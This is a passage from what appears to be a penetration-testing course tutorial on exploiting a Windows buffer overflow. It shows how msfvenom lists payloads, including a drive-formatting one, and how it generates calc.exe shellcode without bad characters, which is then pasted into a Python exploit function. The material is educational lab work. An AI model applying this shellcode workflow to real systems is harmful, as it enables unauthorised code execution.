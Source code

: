 So, to generate our shellcode, we will use `msfvenom`, which can generate shellcodes for Windows systems, while tools like `pwntools` currently only support Linux shellcodes.

First, we can list all available payloads for `Windows 32-bit`, as follows:

&#x20; Jumping to Shellcode

```shell-session
root@htb[/htb]$ msfvenom -l payloads | grep

...SNIP...
    windows/exec                                        Execute an arbitrary command
    windows/format_all_drives                           This payload formats all mounted disks in Windows (aka ShellcodeOfDeath). After formatting, this payload sets the volume label to the string specified in the VOLUMELABEL option. If the code is unable to access a drive for
    windows/loadlibrary                                 Load an arbitrary library path
    windows/messagebox                                  Spawns a dialog via MessageBox using a customizable title, text & icon
...SNIP...
```

For initial testing, let's try `windows/exec` and execute `calc.exe` to open the Windows calculator if our exploit is successful. To do this, we'll use `CMD=calc.exe`, `-f 'python'` since we are using a python exploit, and `-b` to specify any bad characters:

&#x20; Jumping to Shellcode

```shell-session
root@htb[/htb]$ msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python' -b '\x00'

...SNIP...
buf =  b""
buf += b"\xd9\xec\xba\x3d\xcb\x9e\x28\xd9\x74\x24\xf4\x58\x29"
buf += b"\xc9\xb1\x31\x31\x50\x18\x03\x50\x18\x83\xc0\x39\x29"
buf += b"\x6b\xd4\xa9\x2f\x94\x25\x29\x50\x1c\xc0\x18\x50\x7a"
...SNIP...
```

Note: We used the `-b` to showcase how to eliminate any bad characters from our shellcode, where we can add all bad characters we need to eliminate (e.g. `'\x00\x0a\x0d'`). Even if our shellcode did not have any bad characters, this shellcode should still run, though the final shellcode is usually longer if we specify bad characters

Next, we can copy the `buf` variable into our exploit, where we will now define the final function `def exploit()`, which will be our main exploit code:

Code: python

```python
def exploit():
    # msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python' -b '\x00'
    buf =  b""
    buf += b"\xd9\xec\xba\x3d\xcb\x9e\x28\xd9\x74\x24\xf4\x58\x29"
    ...SNIP...
    buf += b"\xfd\x2c\x39\x51\x60\xbf\xa1\xb8\x07\x47\x43\xc5"
```
